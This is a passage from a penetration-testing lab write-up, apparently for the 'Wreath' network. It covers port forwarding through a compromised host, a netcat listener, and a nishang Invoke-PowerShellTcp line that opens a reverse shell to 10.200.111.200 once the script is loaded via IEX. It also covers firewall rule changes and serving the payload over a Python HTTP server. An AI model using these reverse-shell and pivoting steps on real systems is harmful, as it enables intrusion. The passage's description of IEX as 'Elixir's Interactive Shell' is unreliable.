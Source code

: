 <span class="c1"></span>

1.  <span class="c1">We are going to set up a listening port on 20001 on the .200 machine and forward all traffic from that port to 20002 on our machine.</span>

<span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 624.00px; height: 18.67px;">![](_reports/Wreath/image35.png)</span>

1.  <span class="c1">Next, we will set up netcat listening on port 20002 on our system:</span>

<span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 415.50px; height: 28.63px;">![](_reports/Wreath/image66.png)</span>

1.  <span>I used the Invoke-PowerShellTcp.ps1</span> <span>nishang</span><span>script and added</span> <span class="c0">Invoke-PowerShellTcp -Reverse -IPAddress 10.200.111.200 -Port 20001</span><span class="c1"> to the bottom of the script, so that when downloading the script using IEX (more on this later), each line in the script will be automatically executed giving us a reverse shell:</span>

<span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 624.00px; height: 146.67px;">![](_reports/Wreath/image20.png)</span>

<span class="c35 c2 c50">Note how we are sending the reverse shell to .200 on port 20001 (remember all traffic on port 20001 will be directed to our port 20002 on our machine).</span>

1.  <span>Now, the firewall will block inbound connections for any ports that are not specified as exceptions. We have to tell the firewall which ports it should allow for connections by using the</span> <span class="c0">firewall-cmd</span><span class="c1"> command as such:</span>

<span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 521.50px; height: 69.37px;">![](_reports/Wreath/image41.png)</span>

<span class="c35 c2">Alternatively you can type</span> <span class="c35 c2 c0">systemctl stop firewalld</span><span class="c50 c35 c2"> to completely disable the firewall, though this is one of the noisiest actions a pentester can do, and it should only be done when it is an absolute necessity.</span>

<span class="c1">Remember that port 20001 will be directing all traffic to us.</span>

1.  <span>Port 20003 will be the HTTP server on</span> <span class="c0">.200</span><span>which we can set up with</span> <span class="c0">python3 -m http.server 20003</span><span>; it will serve the powershell reverse shell file (which I renamed to</span> <span class="c0">0xd4y-rev.ps1</span><span class="c1">).</span>
2.  <span class="c1">Finally, it’s time for the payload. We can download files / strings using IEX (Elixir’s Interactive Shell) in powershell.  </span>
